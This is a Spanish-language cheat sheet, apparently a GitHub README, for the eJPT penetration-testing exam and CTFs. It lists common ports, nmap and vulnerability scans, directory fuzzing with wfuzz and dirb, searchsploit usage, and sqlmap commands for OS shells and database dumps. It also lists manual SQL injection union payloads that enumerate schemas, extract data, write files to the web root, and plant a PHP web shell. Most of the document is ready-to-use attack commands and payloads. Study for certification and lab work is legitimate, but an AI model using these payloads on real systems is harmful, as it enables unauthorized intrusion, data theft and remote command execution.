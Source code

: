 # Exam-eJPT-Cheatsheet
Ayuda de algunos comandos que pueden utilizarse en el eJPT o en algun CTF.

## Common ports
| Port | Protocol | Hint                   |
|------|----------|------------------------|
| 22   | SSH      |                        |
| 25   | SMTP     |                        |
| 110  | POP3     |                        |
| 115  | SFTP     |                        |
| 143  | IMAP     |                        |
| 80   | HTTP     |                        |
| 443  | HTTPS    |                        |
| 23   | TELNET   |                        |
| 21   | FTP      |                        |
| 3389 | RDP      |                        |
| 3306 | MYSQL    |                        |
| 1433 | MS SQL   |                        |
| 137  | NETBIOS  | find work groups       |
| 138  | NETBIOS  | list shares & machines |
| 139  | NETBIOS  | transit data           |
| 53   | DNS      |                        |

### Nmap Scans
#### OS Detection
    nmap -Pn -O <IP>
#### Nmap Scan ports
    nmap -p- --open -T5 -n <IP> -oG allPorts
    nmap -p- --open -sS --min-rate 5000 -n -Pn <IP> -oN allPorts (Rapido)
#### Nmap Scan Scripts reconocimiento.
    nmap -sC -sV -p<ports> 10.10.10.10 -oN target
#### Nmap Scan (UDP Quick)
    nmap -sU -sV <IP> 
#### Other nmap scan useful during exam
    nmap -sV -Pn -T4 -A -p- -iL hosts.nmap -oN ports.nmap
    nmap --script vuln --script-args=unsafe=1 -iL hosts.nmap
# FUZZING
## mi herramienta favorita para hacer fuzzing  es wfuzz pero existen otras que podemos utilizar.
    wfuzz -c --hc=404,400 -w <dictionaryFile> http://<IP>/FUZZ
#### subdominios pordemos usa el -Z en wfuzz
    wfuzz -c --hc=404,400 -Z -w <dictionaryFile> http://<IP>/FUZZ
#### Herramientas dirsearch , dirb podemos usar tambien gobuster
    dirsearch.py [-u|--url] target [-e|--extensions] extensions [options]
    dirb http://<IP>
# Buscar exploits
### Sabemos que para buscar vulnerabilidades podemos usar google u tirar de esta  herramienta llamada searchsploit
#### Busqueda 
    searchsploit <Name>
#### Inspeccionar
    searchsploit -x path : example searchsploit -x linux_x86-64/47151.c
#### copiar exploit
    searchsploit -m path : example searchsploit -m linux_x86-64/47151.c
# SQLi
### SQLMap
### Podemos tirar de esta herramienta para las injecciones SQL , pero dejare un pequeño recurso para hacerlo manualmente.
    sqlmap -u http://<IP> -p parameter
    sqlmap -u http://<IP>  --data POSTstring -p parameter
    sqlmap -u http://<IP> --os-shell
    sqlmap -u http://<IP> --dump
### Recurso 
https://cheatsheet.haax.fr/web-pentest/injections/server-side-injections/sql/
### Sentencias comunes SQLi
#### Probar si nos lanza algun error
    '
    ' Order by 1000 : tratar de ordenar datos.
    ' Union Select 1 : esperar las columnas.
    ' Union Select "test" : esperar las columnas.
#### Obtener nombre de la DB
    ' Union Select database() -- -
    ' Union select schema_name from information_schema.schemata -- -
#### Tablas
    ' Union select table_name from information_schema.tables where table_schema="nameDB" -- -
#### Columnas
' Union Select column_name from information_schema.columns where table_schema="nameDB" and table_name="nameTable" -- -
#### Data extract
' Union select group_concat(column1,...,coluumnN) from <tablenale> -- -
#### Upload file or Create content
' Union Select "Probando" into outfile "/var/www/html/prueba.txt" -- -
#### PHP with SQLi
    'Union Select "<?php system($_GET['cmd'];?>" into outfile "/var/www/html/commandExec.php" -- -
